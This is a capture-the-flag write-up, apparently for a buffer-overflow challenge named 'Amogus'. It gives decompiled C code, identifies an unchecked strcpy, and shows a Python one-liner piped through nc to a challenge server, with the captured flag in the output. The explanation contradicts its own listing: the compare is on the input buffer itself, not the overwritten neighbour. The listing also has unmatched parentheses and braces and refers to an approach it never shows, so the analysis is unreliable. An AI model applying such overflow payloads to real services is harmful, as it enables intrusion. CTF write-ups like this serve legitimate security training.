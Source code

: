 1. Analyse the file with Ghidra. main() shows this:
```
        int main(void) {
        long in_FS_OFFSET;
        char local_28[24];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        puts("Welcome to Amogus.\n");
        display();
        puts("Enter your name:\n");

        __isoc99_scanf("%s", local_28);
        gameplay(local_28);

        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                __stack_chk_fail();  // Stack canary check
        }

        return 0;
        }
```

gameplay() shows this:
```
        void gameplay(char *param_1) {
        int iVar1;
        FILE *_stream;
        long in_FS_OFFSET;
        char local_68[16];
        char local_58[16];
        char local_48[64];
        long local_10;

        local_10 = *(long *)(in_FS_OFFSET + 0x28);

        __builtin_strncpy(local_68, "DEAD", 5);
        strcpy(local_58, param_1);
        iVar1 = strcmp(local_58, "ALIVE");

        if (iVar1 == 0) {
                _stream = fopen("flag.txt", "r");

                if (_stream == NULL) {
                printf("Error in opening the flag file. Flag file might be missing :(\n"));
                } else {
                fgets(local_48, 0x2d, _stream);
                puts("How are you still alive?!\n");
                puts(local_48);
                }
        } else {
                iVar1 = strcmp(local_58, "DEAD");

                if (iVar1 != 0) {
                puts("ERROR. ERROR. AMONG US NOT RESPONDING.");
                exit(0);
        }

        puts("You are a crewmate. \n");
        FUN_00401160(1);
        puts("You go to Medbay to finish your tasks.\n");
        FUN_00401160(1);
        puts("Suddenly, you hear a gunshot... The world goes dark. \n");
        FUN_00401160(1);
        puts("GAME OVER. YOU LOST :("));
    }

    if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }

    return;
        }
```

2. Looking at the decompiled code, I noticed this suspicious line:

   ```
   strcpy(local_58, param_1);  
   ```

   `strcpy()` copies user input without any size validation into a 16-byte buffer (`local_58`). This is a classic **buffer overflow** vulnerability.

3. Then, we look at the stack layout to determine where we should overflow into:

```
        char local_68[16];  // Initially contains "DEAD"
        char local_58[16];  // Your input buffer
        char local_48[64];  // Flag storage (unused in the exploit)
```

4. Since the simple approach failed and I saw the unsafe `strcpy()`, I thought about overflowing `local_58` to corrupt adjacent memory. Looking at the stack layout:

   ```
        char local_68[16];  // "DEAD" gets stored here
        char local_58[16];  // Our input buffer
        char local_48[64];  // Flag storage
   ```

5. Since local_58 is right before local_68, I could fill up the entire 16-byte local_58 with random characters, and then overflow "ALIVE\x00" into local_68. If `local_68` (which normally contains "DEAD") gets overwritten with "ALIVE", it might affect the string comparison and trigger the flag condition.

6.Use 16 bytes of "A" to fill up local_58, and include "ALIVE":

```
└─$ python -c 'print("A"*16 + "ALIVE\x00")' | nc 43.205.113.100 8292
    Welcome to Amogus.

    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⢀⣀⣤⣤⣤⣀⣀⣀⣀⡀⠀⠀⠀⠀⠀⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⠟⠉⠉⠉⠉⠉⠉⠉⠙⠻⢶⣄⠀⠀⠀⠀   
            ⣾⡏⠀⠀⠀⠀⠀⠀     ⠙⣷⡀⠀    
    ⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⣸⡟⠀⣠⣶⠛⠛⠛⠛⠛⠛⠳⣦⡀⠀⠘⣿⡄    
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⢠⣿⠁⠀⢹⣿⣦⣀⣀⣀⣀⣀⣠⣼⡇⠀⠀⠸⣷⠀⠀  
    ⠀⠀⠀⠀⠀⠀⠀⠀ ⣼⡏⠀⠀⠀⠉⠛⠿⠿⠿⠿⠛⠋⠁⠀⠀⠀⠀⣿    
            ⣿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀ ⠀  ⢻⡇⠀  
            ⣸⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀   ⢸⡇   
    ⠀⠀⠀⠀⠀⠀⠀ ⣿⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣧⠀  
    ⠀⠀⠀⠀⠀⠀⠀ ⡿⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣾⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⠀⣿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀  ⠀⠀⣿⠀  
    ⠀⠀⠀⠀⠀⠀⢰⣿⠀⠀⠀⠀⣠⡶⠶⠿⠿⠿⠿⢷⣦⠀⠀⠀⠀⠀  ⣿⠀  
    ⠀⠀⣀⣀⣀⠀⣸⡇⠀⠀⠀⠀⣿⡀⠀⠀⠀⠀⠀⠀⣿⡇⠀⠀⠀⠀⠀⠀ ⣿⠀ 
    ⣠⡿⠛⠛⠛⠛⠻⠀⠀⠀⠀⠀⢸⣇⠀⠀⠀⠀⠀⠀⣿⠇⠀⠀⠀⠀⠀ ⠀⣿⠀ 
    ⢻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣼⡟⠀⠀⢀⣤⣤⣴⣿⠀⠀⠀⠀⠀⠀  ⣿⠀ 
    ⠈⠙⢷⣶⣦⣤⣤⣤⣴⣶⣾⠿⠛⠁⢀⣶⡟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡟⠀  
                ⣿⣆⡀⠀⠀⠀⠀⠀⢀⣠⣴⡾⠃    
                ⠀⠀⠈⠛⠻⢿⣿⣾⣿⡿⠿⠟⠋⠁⠀⠀   
    Enter your name:

    How are you still alive?!

    shaktictf{ch@ng3d_fat3_wh3n_I_s@w_r3dv3nt}
```

